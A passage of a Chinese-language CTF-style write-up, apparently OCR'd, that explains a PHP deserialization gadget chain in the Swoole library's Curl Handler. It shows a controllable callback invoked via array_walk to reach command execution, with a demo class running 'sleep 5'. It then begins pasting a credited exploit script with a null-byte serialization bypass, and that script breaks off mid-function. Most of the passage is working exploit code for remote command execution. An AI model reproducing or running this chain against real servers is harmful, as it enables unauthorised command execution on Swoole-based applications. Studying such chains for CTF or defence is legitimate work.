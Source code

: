 ```php
// https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php#L782
// L782 - L785
if ($client->body and $this->readFunction) {
    $cb = $this->readFunction;
    $cb($this, $this->outputStream, strlen($client->body))
}

```

回溯可以看到 `$this->readFunction` 完全可控，`$this->outputStream` 可以魔改源代码或者用反射来改也可控，那么也就是说找到一个参数表数量 <= 3 的函数传给 `$cb` 即可

这里看到师傅们找到的这样一个函数``array_walk``

```php
array_walk($this,$this->xxx,xxx);
```

还差一点，因为 swlooe 把系统的 `exec` 给改成了 `Swoole\Coroutine\System::exec`，如果参数不对协程会直接退出，所以不能直接把第二个值赋成 `exec`，还需要再改一下：

```php
class B{
    public $a = 123;
    public $exec = "sleep 5";
    public $c = "xxxx";

    public function __construct(){
        // $cb($this, $this->outputStream, strlen($client->body));
        array_walk($this, 'array_walk', 'xxxx');
    }
}

```

这样就可以执行命令了

贴出师傅的EXP:

```php
// Author: Wupco (http://www.wupco.cn/)

// https://github.com/swoole/library/blob/master/src/core/Curl/Handler.php#L309-L319
// delete(L309-L319) (bypass is_resource check) and change class name to Handlep
include('Handler.php');

// bypass %00
function process_serialized($serialized) {
        $new = '';
        $last = 0;
        $current = 0;
        $pattern = '#\bs:([0-9]+):"#';

        while(
            $current < strlen($serialized) &&
            preg_match(
                $pattern, $serialized, $matches, PREG_OFFSET_CAPTURE, $current
            )
        )
        {

            $p_start = $matches[0][1];
            $p_start_string = $p_start + strlen($matches[0][0]);
            $length = $matches[1][0];
            $p_end_string = $p_start_string + $length;

            # Check if this really is a serialized string
            if(!(
```